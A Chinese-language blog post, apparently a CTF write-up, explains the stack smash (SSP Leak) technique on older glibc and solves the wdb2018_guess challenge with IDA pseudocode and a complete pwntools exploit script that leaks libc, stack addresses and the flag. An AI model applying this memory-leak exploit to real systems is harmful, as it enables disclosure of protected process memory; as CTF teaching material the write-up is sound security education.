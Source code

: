 ```yaml
---
title: Stack smash
date: 2020-04-09 20:40:10
tags:
---
```

最近在出题啊，往安恒投题，能恰钱，收到邮件的时候很快乐<!--more-->  
然后学习了一波stack smash的技术，想着出一个这种题投过去，看上去还是蛮好出的，但是其中有一个fork函数把我难到了  
先简单讲一下fork函数，fork是复制一份进程，它会有两个返回值，用一个if条件，如果返回0，说明是子进程，如果返回是一个pid号，说明是父进程  
什么意思呢？其实后面的这些不明白也不是很重要（目前来说），fork是复制一份进程，那么，触发canary的时候，程序崩溃，不会直接退出，而是再次执行子进程，子进程由于是复制而来的，所以所有内存布局，canary等值是一模一样的，那就快乐了，我写一个for循环fork，就能把触发canary而崩溃的程序重新执行，循环几次执行几次  
SSP Leak又是什么呢？就是Stack Smashing Protector Leak，触发时会执行__stack_chk_fail函数，打印出"stack smashing detected"，并且后面会跟一个参数，正常来说这个参数就是程序名，但是如果我们通过栈溢出来将其覆盖成其他地址，就能通过触发canary打印出的报错信息来泄露我们想得到的内存数据，几乎可以实现任意地址读  
但是有一点需要注意，SSP Leak只适用于ubuntu1604的环境，高版本libc已经不能利用这种技术来泄露了  
先贴个源码比较一下  
glibc2.23  
```C++  
#include <stdio.h>
#include <stdlib.h>


extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn)) internal_function
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
            msg, __libc_argv[0] ?: "<unknown>");
}
libc_hidden_def (__fortify_fail)
```  
glibc2.27  
```C++  
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>


extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn))
__fortify_fail_abort (_Bool need_backtrace, const char *msg)
{
  /* The loop is added only to keep gcc happy.  Don't pass down
     __libc_argv[0] if we aren't doing backtrace since __libc_argv[0]
     may point to the corrupted stack.  */
  while (1)
    __libc_message (need_backtrace ? (do_abort | do_backtrace) : do_abort,
            "*** %s ***: %s terminated\n",
            msg,
            (need_backtrace && __libc_argv[0] != NULL
             ? __libc_argv[0] : "<unknown>"));
}

void
__attribute__ ((noreturn))
__fortify_fail (const char *msg)
{
  __fortify_fail_abort (true, msg);
}

libc_hidden_def (__fortify_fail)
libc_hidden_def (__fortify_fail_abort)
```  
通过实验发现，在glibc2.27的环境下只会打印unknown  
例题：wdb2018_guess  
[题目下载地址](https://buuoj.cn/challenges#wdb2018_guess)  
检查保护  
```shell  
➜  wdb2018_guess checksec GUESS
[*] '/home/N0vice/Desktop/BUUCTF/wdb2018_guess/GUESS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```  
IDA分析下伪代码  
```C++  
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __WAIT_STATUS stat_loc; // [rsp+14h] [rbp-8Ch]
  int v5; // [rsp+1Ch] [rbp-84h]
  __int64 v6; // [rsp+20h] [rbp-80h]
  __int64 v7; // [rsp+28h] [rbp-78h]
  char buf; // [rsp+30h] [rbp-70h]
  char s2; // [rsp+60h] [rbp-40h]
  unsigned __int64 v10; // [rsp+98h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  v7 = 3LL;
  LODWORD(stat_loc.__uptr) = 0;
  v6 = 0LL;
  sub_4009A6(a1, a2, a3);
  HIDWORD(stat_loc.__iptr) = open("./flag.txt", 0);
  if ( HIDWORD(stat_loc.__iptr) == -1 )
  {
    perror("./flag.txt");
    _exit(-1);
  }
  read(SHIDWORD(stat_loc.__iptr), &buf, 0x30uLL);
  close(SHIDWORD(stat_loc.__iptr));
  puts("This is GUESS FLAG CHALLENGE!");
  while ( 1 )
  {
    if ( v6 >= v7 )
    {
      puts("you have no sense... bye :-) ");
      return 0LL;
    }
    v5 = sub_400A11();
    if ( !v5 )
      break;
    ++v6;
    wait((__WAIT_STATUS)&stat_loc);
  }
  puts("Please type your guessing flag");
  gets(&s2);
  if ( !strcmp(&buf, &s2) )
    puts("You must have great six sense!!!! :-o ");
  else
    puts("You should take more effort to get six sence, and one more challenge!!");
  return 0LL;
}
```  
```C++  
__int64 sub_400A11()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  v1 = fork();
  if ( v1 == -1 )
    err(1, "can not fork");
  return v1;
}
```  
用了while循环和if判断，使我们能进行3次猜测  
主要思路如下：  
计算可控输入首地址和__libc_argv[0]之间的偏移，将__libc_argv[0]覆盖成puts_got，泄露libc_base  
泄露栈地址  
计算栈地址与flag之间的距离，得到flag的地址  
覆盖__libc_argv[0]为成flag地址，泄露flag  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn1' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
def exp():
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(elf.got['puts'])
    p.sendline(payload)
    p.recvuntil("*** stack smashing detected ***: ")
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - libc.sym['puts']
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    environ = libc_base + libc.sym['environ']
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(environ)
    p.sendline(payload)
    p.recvuntil("*** stack smashing detected ***: ")
    stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    log.success("stack_addr==>" + hex(stack_addr))
    flag = stack_addr - 0x168
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(flag)
    p.sendline(payload)
    p.interactive()
exp()
```  
参考链接：  
https://cloud.tencent.com/developer/article/1607482  
https://ihomura.cn/2018/08/23/WriteUp-%E7%BD%91%E9%BC%8E%E6%9D%AF%E6%95%99%E8%82%B2%E7%BB%84/  
http://www.pwn4fun.com/pwn/stack-pivot-and-stack-smash.html#2018%E7%BD%91%E9%BC%8E%E6%9D%AFGUESS  
https://bbs.pediy.com/thread-224643.htm  